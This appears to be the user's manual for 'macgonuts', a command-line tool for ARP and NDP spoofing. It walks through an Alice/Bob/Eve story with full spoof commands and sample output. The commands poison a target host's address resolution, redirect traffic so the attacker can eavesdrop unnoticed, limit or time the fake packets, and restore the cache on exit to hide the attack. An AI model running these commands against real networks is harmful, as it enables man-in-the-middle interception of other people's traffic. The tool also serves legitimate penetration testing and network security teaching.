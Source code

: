 # Macgonuts user's manual

**Abstract**: This document provides information about how to use all features currently implemented on
``macgonuts`` tool. Any unclear or even untreated topic you can report
[here](https://github.com/rafael-santiago/macgonuts/issues) please and, thank you!

## Topics

- [What does ``macgonuts`` is for?](#what-does-macgonuts-is-for)
- [Basic facts about the command line tool](#basic-facts-about-the-command-line-tool)]
- [Commands](#commands)
    - [The spoof command](#the-spoof-command)

## What does ``macgonuts`` is for?

Besides a lousy pun, ``macgonuts`` is also a tool to exploit address resolution on networks.
Anyway, the main motivation to implement ``macgonuts`` was the possibility of using the lousy pun, I need to admit...
You can also understand ``macgonuts`` as a swiss army knife to exploit addressing resolution on computer networks, but
my main goal was to have something to use the pun.

[``Back``](#topics)

## Basic facts about the command line tool

1. This is about a ``unix-like`` tool.
2. It does not set on fireworks when a thing works.
3. It is based on commands.
4. When you want a quick help about a command you run: ``macgonuts help <command>``.
5. If you do not want to read this manual by preferring poke by yourself the tool: ``macgonuts help``.
6. If you still do not understand try to go to 1.

[``Back``](#topics)

## Commands

This section describes in detail all implemented commands in ``macgonuts``. Keep on reading to master up
the tool and making a youtube video about it.

### The spoof command

Maybe the ``spoof`` command is the command for what you arrive here. With ``spoof`` command you can deceive
a host by making it think that you are the droid that it was looking for...

If you run:

```
ford@RestaurantAtTheEndOfTheUniverse:~# macgonuts help spoof
use: macgonuts spoof --lo-iface=<label>
                     --target-addr=<ip4|ip6> --addr2spoof=<ip4|ip6>
                    [--fake-pkts-amount=<n> --timeout=<ms> --redirect --undo-spoof]
```

Okay, it expects at least three options:

- ``--lo-iface``
- ``--target-addr``
- ``--addr2spoff``

Nice, it does support ``ARP`` and ``NDP`` because options related to addressing supports ``ipv4`` or ``ipv6``.

The option ``--lo-iface`` stands for "local interface" you need to indicate the interface that your
machine uses to access the network that you are wanting to.. err... mess up... Anyway,
the option ``--target-addr`` is where you indicate the address of the host that you want to deceive
and ``--addr2spoof`` option is where you input the address that you want to override on target host.

Now, story time!!!!!!

Once upon time, three persons: Alice, Bob and Eve:

- Alice is on host ``192.30.70.8``.
- Bob is on host ``192.30.70.10``.
- Eve is on host ``192.30.70.9``.

Eve wants to use ``macgonuts`` to make Bob think that she is Alice on the network. So Eve run:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8
```

After emitting this command on her terminal, Eve starts to watch the following messages:

```
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
(...)
```

Eve's screen will be flooded with this info, now you imagine the network... Eve the barbarian I would say...
In fact, the spoof is done, at this moment ``192.30.70.10`` (Bob) thinks that ``192.30.70.8`` (Alice) is
``192.30.70.9`` (Eve).

If Eve wants to avoid flooding the network with so many packets she can pass ``--timeout=<mss>`` option:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500
```

The same effect of the prior command but now at each half second ``macgonuts`` will inject in the network one
fake ``ARP`` resolution.

Nice, but Eve also wants to avoid interrupting any communication between Alice <-> Bob, in this way she can sit on
and eavesdropping (what a nice pun, huh?!) their channel. It can be done by passing ``--redirect`` flag:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500 --redirect
```

Same effect, still spoofed but now redirecting packets and do not abusing network throughput.

Eve hits ``ctrl+c`` to exit the application (by the way, this is how you exit spoof command, sorry!). However,
Bob stills think that Eve's computer is Alice's computer and at this moment he will notice that "Alice"
stopped respond to his requests. If Eve wants to become incognito, she can pass the option ``--undo-spoof``:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500 --redirect --undo-spoof
```

Once ``macgonuts`` got an exit request it will stop flooding network with fake packets and
restore the MAC resolution on target host, in other words, it do some housekeeping before going home
(...well, I think you understood anyway).

If flooding network is not an option Eve also could send only a specific amount of fake resolution
packets by using ``--fake-pkts-amount=<n>``:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=3000 --fake-pkts-amount=50
> --redirect --undo-spoof
```

**Tip**: When you do redirect it has already some implicit timeout, in this way, maybe you do not have to pass an
explicit timeout, depending on how much of timeout you are intending between fake resolution packets.

Congrats! Now you are a macgonuts spoofing master!

[``Back``](#topics)
